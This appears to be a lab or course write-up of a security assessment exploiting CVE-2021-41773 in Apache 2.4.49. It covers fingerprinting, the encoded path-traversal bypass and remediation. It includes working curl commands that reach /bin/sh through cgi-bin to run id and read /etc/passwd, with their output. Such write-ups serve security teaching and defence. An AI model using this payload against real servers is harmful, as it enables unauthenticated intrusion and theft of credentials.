




# Module 04: LAMP Security Assessment — Apache Path Traversal to Remote Code Execution

## Overview

This assessment targeted a LAMP stack deployment running Apache 2.4.49 on Linux with `mod_cgi` enabled. The Apache version identified during fingerprinting mapped directly to **CVE-2021-41773**, a critical (CVSS 7.5, escalating to 9.8 with `mod_cgi`) path traversal vulnerability introduced in Apache 2.4.49 that allows an unauthenticated attacker to escape the web root using encoded dot-segments in the URL path. When `mod_cgi` is present and enabled — as it was here — the traversal reaches executable binaries on the filesystem, and Apache executes them as CGI scripts, turning a directory traversal into unauthenticated remote code execution with the privileges of the web process.

---

## Target Identification

### HTTP Fingerprinting

A header request against the application root returned an `Apache/2.4.49 (Unix)` server header — the exact version string that maps to CVE-2021-41773 and nothing else:

```bash
curl -I http://target.internal:8080/
```

```
HTTP/1.1 200 OK
Server: Apache/2.4.49 (Unix)
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
ETag: "2d-432a5e4a73a80"
Accept-Ranges: bytes
Content-Length: 45
Content-Type: text/html
```

This version is version-specific — CVE-2021-41773 affects Apache 2.4.49 only. A `Server: Apache/2.4.49` header is an immediate signal to test this CVE before anything else.

### Confirming `mod_cgi`

The `/cgi-bin/` path was probed to confirm whether `mod_cgi` was active. A `403 Forbidden` response indicates the directory exists and CGI execution is configured — Apache is blocking directory listing, not denying the directory's existence. A `404` would mean `mod_cgi` is absent, and the traversal would be limited to file reads rather than code execution:

```bash
curl -v http://target.internal:8080/cgi-bin/
```

```
HTTP/1.1 403 Forbidden
Server: Apache/2.4.49 (Unix)
Content-Type: text/html; charset=iso-8859-1

<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
```

The `403` confirmed `mod_cgi` is enabled — the condition required for this traversal to escalate from file read to remote code execution.

---

## Vulnerability Summary

Apache 2.4.49 introduced a regression in the `ap_normalize_path()` function responsible for filtering path traversal sequences before a URL reaches the filesystem. The filter was designed to block any URL containing `../`, but the check ran before full URL decoding was complete.

The bypass exploits this decode-order flaw: `.%2e/` (a literal dot followed by the URL-encoded equivalent of the second dot and a slash) is not recognised as `../` by the traversal filter, because `%2e` has not yet been decoded when the check runs. When the URL subsequently reaches the filesystem layer, the OS resolves `.%2e/` as `../` normally. The filter was bypassed entirely.

On its own, this is a directory traversal for arbitrary file read. The escalation to RCE comes from the interaction with `mod_cgi`: when the traversal resolves to an executable binary — such as `/bin/sh` — Apache treats it as a CGI script, executes it, and passes the HTTP POST body to the process's standard input. Any shell commands in the POST body are executed on the server.

The `--path-as-is` flag is required when sending this request with `curl`. Without it, `curl` normalises the `.%2e/` sequences before the request leaves the client, and the server receives a clean, traversal-free path — the exploit never fires.

---

## Exploitation Workflow

### 1. Remote Code Execution — Process Identity

Four `.%2e/` segments traverse upward from `/cgi-bin/` to the filesystem root, where `/bin/sh` is reachable. The `echo Content-Type: text/plain; echo;` preamble satisfies the CGI specification — Apache requires a valid HTTP header block before the response body, or it returns a 500 error:

```bash
curl -s --path-as-is "http://target.internal:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  --data 'echo Content-Type: text/plain; echo; id'
```

```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

RCE was confirmed. The Apache process was running as `daemon` (UID 1) rather than the more commonly hardened `www-data` account — a secondary misconfiguration that marginally broadens the privileges available to the web process.

### 2. Arbitrary File Read — System Account Enumeration

With code execution confirmed, `/etc/passwd` was read to demonstrate that the access extends to arbitrary file reads across any path the `daemon` user can reach:

```bash
curl -s --path-as-is "http://target.internal:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  --data 'echo Content-Type: text/plain; echo; cat /etc/passwd'
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

The same primitive that executes `id` executes any shell command — reading environment variables, listing directory contents, or exfiltrating application configuration files and credentials stored on the filesystem follows the same pattern.

---

## Impact

This vulnerability provided unauthenticated remote code execution with no credentials, no brute forcing, and no prior access to the system — a single HTTP request was sufficient. The Apache process running as `daemon` had read access to the broader filesystem beyond the web root, making application configuration files, environment variable stores, and other on-disk credentials reachable via the same technique. In a real engagement, this access would typically be used to extract database credentials from application configuration files, read private keys, or establish persistence before escalating further. The vulnerability is version-specific but trivially fingerprinted — `Server: Apache/2.4.49` in any HTTP response is sufficient to confirm exposure before sending a single exploit request.

---

## Evidence

### 1. Apache Version Fingerprinting


`Server: Apache/2.4.49 (Unix)` — the exact version string confirming exposure to CVE-2021-41773 prior to any exploit attempt.

### 2. `mod_cgi` Confirmation via `/cgi-bin/`


`403 Forbidden` on `/cgi-bin/` confirms the directory exists and CGI execution is configured — the prerequisite for path traversal to escalate to RCE.

### 3. Remote Code Execution — Process Identity


Shell command execution via the traversal payload returns `uid=1(daemon)`, confirming unauthenticated RCE with web process privileges.

### 4. Arbitrary File Read — `/etc/passwd`


The same technique reads `/etc/passwd`, demonstrating filesystem access beyond the web root and confirming the primitive extends to arbitrary file reads.

---

## Remediation

* Upgrade Apache immediately to 2.4.51 or later. CVE-2021-41773 affects 2.4.49 only; a partial patch in 2.4.50 blocked single-encoded traversal but introduced a double-encoding bypass tracked as CVE-2021-42013. Only 2.4.51 and later are fully patched against both.
* Disable `mod_cgi` and `mod_cgid` if CGI execution is not required. Removing CGI execution capability limits the impact of any future path traversal to file reads rather than code execution.
* Ensure `Options -Indexes -ExecCGI` is set for directories that do not require CGI, and restrict CGI execution explicitly to directories that need it.
* Configure Apache to run under a dedicated, minimally privileged service account (`www-data` or equivalent) rather than `daemon`, limiting the filesystem access available to the web process.
* Suppress the `Server` header version string in production to slow fingerprinting: `ServerTokens Prod` in `httpd.conf` reduces the header to `Server: Apache` without the version number.